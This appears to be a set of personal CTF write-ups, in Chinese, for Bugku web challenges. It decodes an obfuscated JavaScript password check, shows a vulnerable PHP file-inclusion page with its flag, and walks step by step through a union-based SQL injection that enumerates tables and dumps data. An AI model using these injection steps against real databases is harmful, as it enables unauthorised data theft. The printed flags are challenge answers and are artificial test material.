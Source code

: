 **1. 头等舱**

<img src="file:///C:/Users/TYH/AppData/Local/Temp/msohtmlclip1/01/clip_image002.jpg" alt="img" style="zoom: 67%;" />

![img](file:///C:/Users/TYH/AppData/Local/Temp/msohtmlclip1/01/clip_image004.jpg)

![img](file:///C:/Users/TYH/AppData/Local/Temp/msohtmlclip1/01/clip_image006.jpg)



------------



**2.源代码 **

<img src="C:\Users\TYH\AppData\Roaming\Typora\typora-user-images\image-20210717090613179.png" alt="image-20210717090613179" style="zoom:50%;" />

![image-20210717090721664](C:\Users\TYH\AppData\Roaming\Typora\typora-user-images\image-20210717090721664.png)

Var p1 =

'%66%75%6e%63%74%69%6f%6e%20%63%68%65%63%6b%53%75%62%6d%69%74%28%29%7b%76%61%72%20%61%3d%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%42%79%49%64%28%22%70%61%73%73%77%6f%72%64%22%29%3b%69%66%28%22%75%6e%64%65%66%69%6e%65%64%22%21%3d%74%79%70%65%6f%66%20%61%29%7b%69%66%28%22%36%37%64%37%30%39%62%32%62';

var p2 = '%61%61%36%34%38%63%66%36%65%38%37%61%37%31%31%34%66%31%22%3d%3d%61%2e%76%61%6c%75%65%29%72%65%74%75%72%6e%21%30%3b%61%6c%65%72%74%28%22%45%72%72%6f%72%22%29%3b%61%2e%66%6f%63%75%73%28%29%3b%72%65%74%75%72%6e%21%31%7d%7d%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%42%79%49%64%28%22%6c%65%76%65%6c%51%75%65%73%74%22%29%2e%6f%6e%73%75%62%6d%69%74%3d%63%68%65%63%6b%53%75%62%6d%69%74%3b';

eval(unescape(p1) + unescape('%35%34%61%61%32' + p2));

将p1和p2的URL编码解码：

![image-20210717085835883](C:\Users\TYH\AppData\Roaming\Typora\typora-user-images\image-20210717085835883.png)

![image-20210717085934389](C:\Users\TYH\AppData\Roaming\Typora\typora-user-images\image-20210717085934389.png)

![image-20210717090059165](C:\Users\TYH\AppData\Roaming\Typora\typora-user-images\image-20210717090059165.png)

整理一下，发现是一段js代码：

```js
function checkSubmit(){ 
        var a=document.getElementById("password"); 
        if("undefined"!=typeof a){ 
            if("67d709b2b54aa2aa648cf6e87a7114f1"==a.value) 
                return!0; 
           alert("Error");
           a.focus(); 
            return!1 
    }
 } 
document.getElementById("levelQuest").onsubmit=checkSubmit;
```

<img src="C:\Users\TYH\AppData\Roaming\Typora\typora-user-images\image-20210717090528989.png" alt="image-20210717090528989" style="zoom:67%;" />

-----



**3.文件包含**

<img src="C:\Users\TYH\AppData\Roaming\Typora\typora-user-images\image-20210717093323566.png" alt="image-20210717093323566" style="zoom:50%;" />

![image-20210717091537340](C:\Users\TYH\AppData\Roaming\Typora\typora-user-images\image-20210717091537340.png)

![image-20210717091657099](C:\Users\TYH\AppData\Roaming\Typora\typora-user-images\image-20210717091657099.png)

![image-20210717092157211](C:\Users\TYH\AppData\Roaming\Typora\typora-user-images\image-20210717092157211.png)

![image-20210717092945034](C:\Users\TYH\AppData\Roaming\Typora\typora-user-images\image-20210717092945034.png)

![image-20210717093458483](C:\Users\TYH\AppData\Roaming\Typora\typora-user-images\image-20210717093458483.png)

```
<html>
    <title>Bugku-web</title>
    
<?php
	error_reporting(0);
	if(!$_GET[file]){echo '<a href="./index.php?file=show.php">click me? no</a>';}
	$file=$_GET['file'];
	if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
		echo "Oh no!";
		exit();
	}
	include($file); 
//flag:flag{aff721898690301d2fc7cc0d2ff35396}
?>
</html>
```

[参照]: https://blog.csdn.net/qq_51553814/article/details/118693425



-----



**4.好像需要密码**

<img src="C:\Users\TYH\AppData\Roaming\Typora\typora-user-images\image-20210717131258573.png" alt="image-20210717131258573" style="zoom:50%;" />

<img src="C:\Users\TYH\AppData\Roaming\Typora\typora-user-images\image-20210717131415109.png" alt="image-20210717131415109" style="zoom: 67%;" />

![img](https://img-blog.csdnimg.cn/2019070915032383.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MzI3Mjc4MQ==,size_16,color_FFFFFF,t_70)

<img src="https://img-blog.csdnimg.cn/20210219141607220.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUyMjU0MA==,size_16,color_FFFFFF,t_70" alt="img" style="zoom:67%;" />

![image-20210717134007956](C:\Users\TYH\AppData\Roaming\Typora\typora-user-images\image-20210717134007956.png)

<img src="C:\Users\TYH\AppData\Roaming\Typora\typora-user-images\image-20210717131336266.png" alt="image-20210717131336266" style="zoom:67%;" />

-----



**5.备份是个好习惯**

<img src="C:\Users\TYH\AppData\Roaming\Typora\typora-user-images\image-20210717132315035.png" alt="image-20210717132315035" style="zoom:50%;" />

<img src="C:\Users\TYH\AppData\Roaming\Typora\typora-user-images\image-20210717132208199.png" alt="image-20210717132208199" style="zoom: 67%;" />

![image-20210717132701968](C:\Users\TYH\AppData\Roaming\Typora\typora-user-images\image-20210717132701968.png)

[参照]: https://www.cnblogs.com/jingvf/p/13829088.html
[参照]: https://zhuanlan.zhihu.com/p/134777329



-----



**6.学生成绩查询**

<img src="C:\Users\TYH\AppData\Roaming\Typora\typora-user-images\image-20210717140533061.png" alt="image-20210717140533061" style="zoom:50%;" />

![image-20210717140456166](C:\Users\TYH\AppData\Roaming\Typora\typora-user-images\image-20210717140456166.png)

id=1时，可以查询到成绩 id=1’ 为空
id=1’ and 1=1 # 与 id=1’ and 1=2 #
结果不同，由此判读可能存在sql注入

1、尝试获取列数
id=1’ order by 4 #，正常回显， id=1’ order by 5 #，异常，由此判断有4列

2、union联合查询
id=-1’ union select 1,2,3,4#，正常显示，说明存在这四列数据

3、爆库名、用户和版本
id=-1’ union select 1234,database(),user(),version() #
![img](https://img-blog.csdnimg.cn/20210220212039951.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUyMjU0MA==,size_16,color_FFFFFF,t_70)
数据库为skctf

4、爆表名
id=-1' union select 1234,(select group_concat(table_name)
from information_schema.tables where table_schema=database()),user(),version()#
![img](https://img-blog.csdnimg.cn/20210220212205866.png)
表名：fl4g，sc

5、爆字段
id=-1’ union select 1234, (select
group_concat(column_name) from information_schema.columns where table_name=‘fl4g’),user(),version() #
![img](https://img-blog.csdnimg.cn/20210220212310666.png)
字段名：skctf_flag

6、爆数据
id=-1’ union select 1234, (select skctf_flag from fl4g),user(),version()#

得到flag

![image-20210717140915511](C:\Users\TYH\AppData\Roaming\Typora\typora-user-images\image-20210717140915511.png)

[参照]: https://blog.csdn.net/weixin_44522540/article/details/113975440
[参照]: https://www.cnblogs.com/jingvf/p/13841652.html
[参照]: https://blog.csdn.net/weixin_44522540/article/details/113975440
[参照]: http://t.zoukankan.com/Kuller-Yan-p-12914120.html



------



**7.网站被黑**

![image-20210718170448976](C:\Users\TYH\AppData\Roaming\Typora\typora-user-images\image-20210718170448976.png)

[参照]: https://www.cnblogs.com/0x200/p/13738660.html
[参照]: https://blog.csdn.net/qq_26090065/article/details/81571326?utm_term=bugkuweb%E7%BD%91%E7%AB%99%E8%A2%AB%E9%BB%91&amp;utm_medium=distribute.pc_aggpage_search_result.none-task-blog-2~all~sobaiduweb~default-0-81571326&amp;spm=3001.4430



-----



**8.社工-伪造**

<img src="C:\Users\TYH\AppData\Roaming\Typora\typora-user-images\image-20210718183142794.png" alt="image-20210718183142794" style="zoom:50%;" />

<img src="https://img-blog.csdnimg.cn/20210616133444957.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzIyNTk3OTU1,size_16,color_FFFFFF,t_70" alt="img" style="zoom:50%;" />

<img src="C:\Users\TYH\AppData\Roaming\Typora\typora-user-images\image-20210718180102651.png" alt="image-20210718180102651" style="zoom:50%;" />

![image-20210718181242244](C:\Users\TYH\AppData\Roaming\Typora\typora-user-images\image-20210718181242244.png)

<img src="C:\Users\TYH\AppData\Roaming\Typora\typora-user-images\image-20210718183218738.png" alt="image-20210718183218738" style="zoom:67%;" />
